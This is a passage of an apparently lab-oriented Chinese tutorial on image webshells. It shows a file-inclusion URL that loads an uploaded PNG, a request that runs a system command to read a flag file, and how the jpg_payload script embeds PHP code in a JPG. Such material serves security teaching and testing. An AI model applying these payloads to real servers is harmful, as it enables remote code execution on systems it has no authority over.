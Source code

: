 首先获取图片的上传地址为：

```
http://vul.xps.com:30010/upload/357481464.png
```

![](https://image.201068.xyz/assets/1603635794598.png) 



利用网站本身的文件包含漏洞，尝试直接包含这个图马 ：

```bash
http://vul.xps.com:30010/?file=./upload/357481464.png
```

![](https://image.201068.xyz/assets/16036358617110.png) 

貌似成功了，执行命令看看：

```
http://vul.xps.com:30010/?0=system&file=./upload/357481464.png
```

POST 内容如下：

```bash
1=cat /f14a4a4a4a444g
```

![](https://image.201068.xyz/assets/16036360607524.png) 

## JPG

JPG 也需要使用脚本将数据插入到特定的数据库，而且可能会不成功，所以需要多次尝试。

这个脚本 Github 搜索一下很多项目都有这个脚本，这里国光就随便搜索拿了搜索结果第一个的项目放在本文中。

**项目地址**：<a href="https://github.com/BlackFan/jpg_payload" ref="nofollow">Github - lackFan/jpg_payload</a>

准备一个 jpg 图片：

![](https://image.201068.xyz/assets/16036693924901.jpg) 



 然后上传到目标网站上面渲染一下再导出：

![](https://image.201068.xyz/assets/1603669426842.jpg)  

 

接着使用脚本来插入 payload，如果想要修改默认 payload 的话，自行修改脚本中的下部分代码：

```php
$miniPayload = '<?php phpinfo();?>';
```

然后运行脚本插入 payload：

```bash
$ php jpg_payload.php 122728342.jpg
Success!
```
